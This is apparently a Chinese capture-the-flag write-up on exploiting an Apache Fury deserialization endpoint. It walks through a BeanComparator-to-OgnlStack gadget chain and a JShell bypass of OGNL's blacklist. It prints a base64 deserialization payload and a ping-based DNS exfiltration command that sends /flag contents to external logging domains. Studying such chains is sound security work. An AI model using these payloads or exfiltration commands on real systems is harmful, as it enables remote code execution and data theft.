




## 信息收集
1. 题目源码，一个简单的java17版本下的fury反序列化，依赖只有fury0.9.0和feilong4.5.1
   ```java
    package com.app;

    import com.feilong.core.net.ParamUtil;
    import com.feilong.io.InputStreamUtil;
    import com.sun.net.httpserver.HttpExchange;
    import com.sun.net.httpserver.HttpServer;
    import org.apache.fury.Fury;
    import org.apache.fury.config.Language;

    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.InetSocketAddress;
    import java.nio.charset.StandardCharsets;
    import java.util.Base64;

    public class Server {
        public static void main(String[] args) throws Exception {
            Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).withRefTracking(true).build();
            HttpServer httpServer = HttpServer.create(new InetSocketAddress(8888), 0);
            httpServer.createContext("/", exchange -> {
                String result = handle(exchange, fury);
                byte[] bytes = result.getBytes(StandardCharsets.UTF_8);
                exchange.getResponseHeaders().set("Content-Type", "text/plain; charset=UTF-8");
                exchange.sendResponseHeaders(200, bytes.length);
                try (OutputStream os = exchange.getResponseBody()) {
                    os.write(bytes);
                }
            });
            httpServer.start();
            System.out.println("server started: 0.0.0.0:8888");
        }

        private static String handle(HttpExchange exchange, Fury fury) {
            try (InputStream in = exchange.getRequestBody()) {
                String body = InputStreamUtil.toString(in, StandardCharsets.UTF_8.name());
                String data = ParamUtil.toSingleValueMap(body, null).get("data");
                if (data == null || data.isEmpty() || data.length() > 666) return "no";
                byte[] payload = Base64.getDecoder().decode(data);
                if (hasUnicodeEscape(payload)) return "no";
                fury.deserialize(payload);
                return "ok";
            } catch (Exception e) {
                return "no";
            }
        }

        private static boolean hasUnicodeEscape(byte[] bytes) {
            for (int i = 0; i < bytes.length - 1; i++) {
                if (bytes[i] == '\\' && (bytes[i + 1] == 'u' || bytes[i + 1] == 'U')) {
                    return true;
                }
            }
            return false;
        }
    }
    ``` 
2. feilong自带了cc和cb的依赖，但是cc链，cb链的TemplatesImpl被ban了需要找其他sink
3. fury里面自带的黑名单ban了
4. 把ezff.jar放到jar-analyzer中分析一下，找可以用的sink
5. OgnlStack.getValue()可以进行ognl表达式求值来RCE，这里ognl是高版本，有黑名单的
   ```java
    (AO_SETACCESSIBLE_REF != null && AO_SETACCESSIBLE_REF.equals(method)) ||
    (AO_SETACCESSIBLE_ARR_REF != null && AO_SETACCESSIBLE_ARR_REF.equals(method)) ||
    (SYS_EXIT_REF != null && SYS_EXIT_REF.equals(method)) ||
    (SYS_CONSOLE_REF != null && SYS_CONSOLE_REF.equals(method)) ||
    AccessibleObjectHandler.class.isAssignableFrom(methodDeclaringClass) ||
    ClassResolver.class.isAssignableFrom(methodDeclaringClass) ||
    MethodAccessor.class.isAssignableFrom(methodDeclaringClass) ||
    MemberAccess.class.isAssignableFrom(methodDeclaringClass) ||
    OgnlContext.class.isAssignableFrom(methodDeclaringClass) ||
    Runtime.class.isAssignableFrom(methodDeclaringClass) ||
    ClassLoader.class.isAssignableFrom(methodDeclaringClass) ||
    ProcessBuilder.class.isAssignableFrom(methodDeclaringClass) ||
    AccessibleObjectHandlerJDK9Plus.unsafeOrDescendant(methodDeclaringClass)
   ```
   PropertyUtils获取属性名是可以用value(yyy)这种格式的，刚好我们的OgnlStack.getValue()的参数也是字符串，所以相等可以用cb链的前半段
## 调用链
```java
PriorityQueue.readObject()
|
heapify()
|
Beancomparator.compare(表达式)
|
PropertyUtils.getProperty(o1, "value(yyy)")
|
OgnlStack.getValue("yyy") 
|
OGNL表达式执行
```
## 构造POC脚本
**关键点：**本题直接读取文件内容是无回显的，需要使用DNS带外将文件内容带出【先到DNSlog平台获取一个域名】
```java

```
## 生成payload

```
AgDiAQIAQQQJzNFIhbmm0tAdBIBtJoXIFgT0JAN6JzHgiCbogAAodmFsdWUoeXl5KQB5AsfTvz4nF4EEcZ8KIQWcaN8WQD8EcWWIEmQcbx8EcYeAiAmcikAcBHROY8EQBWTonMeCIJuiBUUE8j4bIDO/4InM0UiFuabS0B0S4iL04zVgDgJQMaXYmAEUAABCAQdK/QBQAQBwbG94aWEudXNlaW5nTG94aWFOdWxsSGFuZGxlcgAcAQBEAQAMeXl5ADUECczRSIW5ptLQHTjNWA4CtWWuDgEGgAAAOv39/f0AHwgCaznBiAQAHxgCNWW2JgJkBTCJjnBgAABS/QBEamRrLmpzaGVsbC5KU2hlbGwAGGNyZWF0Zf3+CP39/QAfDgI1ZbMImOcGAABU/f39ABBldmFsAB8TAgAfDgK1Za4cakmAAAA+/f3+C/39/QAs1ANSdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKG5ldyBTdHJpbmdbXXsic2giLCItYyIsInBpbmcgJCh4eGQgLXAgLWMgMjU2IC9mbGFnfGN1dCAtYzEtNTApLjJlZmc4MnZqLnJlcXVlc3RyZXBvLmNvbSJ9KTv+CP39/f39/f3+Aw==
```
上传指定在DNSlog平台等待解析记录
由于flag太长一次读不完所以分两次刚好读完，将两次带出的内容解码拼接就获取了最后的flag
## 完整流程梳理
目标服务器 
```
接收 payload   
|
fury.deserialize() 反序列化
|
PriorityQueue 重建堆 → BeanComparator.compare() 
|
OgnlStack.getValue("yyy") → 从缓存获取恶意AST
|
执行 OGNL 表达式：@JShell@create().eval(...) 
|
JShell 动态执行 Java 代码 
|
Runtime.exec() 执行系统命令
|
ping 命令发送 DNS 查询
```
攻击者
```
在DNSLog 平台接收十六进制数据
|
解码+拼接
|
获取flag
```
## 知识点整理
1. Fury反序列化框架特性
   Apache Fury是一个高性能的跨语言序列化框架，在0.9.0版本中引入了元数据共享模式（Meta Share Mode）来优化性能。这种优化带来了一系列安全考量：
    ```java
    Fury fury = Fury.builder()
        .withLanguage(Language.JAVA)
        .requireClassRegistration(false)  // 关键：允许任意类反序列化
        .withRefTracking(true)            // 引用跟踪，防止循环引用
        .build();
    ``` 
    requireClassRegistration(false)：关闭类注册要求，允许反序列化任意类，这是漏洞能利用的前提条件
    withRefTracking(true)：启用引用跟踪，在序列化对象图时维护对象引用关系
2. OGNL表达式注入原理
   OGNL（Object-Graph Navigation Language）是Java中强大的表达式语言，漏洞核心在于Ognl.getValue()方法会解析并执行传入的表达式字符串
   ```java
    // 直接执行系统命令
    @java.lang.Runtime@getRuntime().exec("calc.exe")

    // 通过JShell执行Java代码
    @jdk.jshell.JShell@create().eval('Runtime.getRuntime().exec("calc")')
   ``` 
3. OgnlStack缓存绕过技术
   核心绕过原理：OgnlStack内部维护了一个expressionsMap缓存，用于存储已解析的OGNL表达式AST（抽象语法树）
   ```java
    private Object getExpression(String expr) {
        synchronized (expressionsMap) {
            return expressionsMap.computeIfAbsent(expr, key -> {
                return Ognl.parseExpression(expr);  // 解析并缓存
            });
        }
    }
   ``` 
   绕过技巧：
   攻击者预先生成恶意表达式AST对象
   通过反射修改expressionsMap，将"yyy"映射到恶意AST
   调用getValue("yyy")时直接从缓存获取，绕过表达式语法检查
   这种方法成功绕过了对括号()的过滤限制，因为缓存中的AST对象已经是合法结构。
4. Unicode绕过与防御
   ```java
    // 原始表达式
    @Runtime@exec("calc")

    // Unicode编码后
    @\u0052\u0075\u006e\u0074\u0069\u006d\u0065@exec("calc")
   ``` 
5. JShell 动态代码执行（Java 9+）
   ```java
    @jdk.jshell.JShell@create().eval("...") 
   ```
   详解：
   @jdk.jshell.JShell	引用 jdk.jshell.JShell 类（静态方法调用）
   @create()	调用 JShell.create() 静态方法，创建 JShell 实例
   .eval(...)	执行传入的 Java 代码片段，返回 List<SnippetEvent>     
   为什么用 JShell：
   高版本 Java（9+）中，Runtime.exec 等直接调用可能被限制
   JShell 提供了动态编译执行 Java 代码的能力
   可以绕过某些沙箱或黑名单限制
   **本题用于绕过高版本OGNL表达式注入的黑名单限制**
   等价于：
   ```java
   jdk.jshell.JShell.create().eval("Runtime.getRuntime().exec(...)")
   ```
   执行流程：
   ```
   OGNL 表达式 → OgnlStack.getValue() → 解析表达式 → 调用 JShell.eval() → 执行 Java 代码
   ```
6. DNS 外带数据（Data Exfiltration）
    ```bash
    ping $(xxd -p -c 256 /flag | cut -c51-100).7c3fd22af4.ddns.1433.eu.org
    ```
   1. `xxd -p -c 256 /flag`
        ```bash
        xxd -p /flag          # 将文件转为十六进制字符串
        xxd -c 256 /flag      # 每行256字节
        xxd -p -c 256 /flag   # 十六进制格式，每行256字节
        ```
   2. cut -c51-100
        ```bash
        cut -c51-100    # 提取每行的第51到第100个字符
        用于分片传输，因为 DNS 子域名长度限制为 63 字符（十六进制模式下最多传输约 31 字节原始数据）。
        ```
   3. $(...) 内联命令执行
        ```bash
        $(命令)          # 先执行命令，再将输出结果替换到当前位置
        ```
   4. DNS 外带原理
        ```bash
        ping 数据子域名.攻击者域名
        最终请求的域名：[十六进制数据].7c3fd22af4.ddns.1433.eu.org
        ```
   5. 数据流向：
        ```text
        /flag → xxd (十六进制) → cut (分片) → ping (DNS查询) → DNSLog平台 → 攻击者
        ```
   6. 为什么需要分片？
      DNS 子域名最大长度	63 字符（RFC 1035）
      十六进制模式	每个原始字节 = 2 个十六进制字符
      单次最大传输	63 ÷ 2 ≈ 31 字节
      因此需要分片传输：
      cut -c1-50：第 1 片
      cut -c51-100：第 2 片
      ...